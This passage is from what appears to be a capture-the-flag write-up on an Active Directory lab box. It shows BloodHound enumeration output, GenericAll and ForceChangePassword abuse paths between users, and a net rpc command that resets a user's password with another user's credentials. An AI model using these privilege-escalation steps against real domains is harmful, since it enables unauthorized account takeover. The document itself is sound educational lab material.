 INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.administrator.htb
INFO: Done in 00M 06S
INFO: Compressing output into 20250504183824_bloodhound.zip
{% endhighlight %}

#### BloodHound

<mark>Olivia</mark> has <mark>GenericAll</mark> privileges over <mark>Micheal</mark>, which means we have full control over user <mark>Michael</mark>. Let's check what we could do next.

![Olivia GenericAll to Micheal](/assets/img/posts/Administrator/OliviaToMichael.png)

<mark>Michael</mark> has <mark>ForceChangePassword</mark> privileges over <mark>Benjamin</mark>.

![Michael ForceChangePassword to Benjamin](/assets/img/posts/Administrator/MichaelToBenjamin.png)

I can't find a clear path further. However, I have a hunch we will find something along the way as <mark>Benjamin</mark> is a member of <mark>Share Moderators</mark>. 

![Benjamin Groups](/assets/img/posts/Administrator/BenjaminGroups.png)

## Privilege escalation
---

### Abusing ACLs

#### Michael

Having the <mark>GenericAll</mark> privileges I decided to change <mark>Michael</mark>'s password.

{% highlight shell %}
exegol-liemek administrator # net rpc password "michael" "helloItsm3e(123)" -U "administrator.htb"/"olivia"%"ichliebedich" -S 10.10.11.42 
{% endhighlight %}
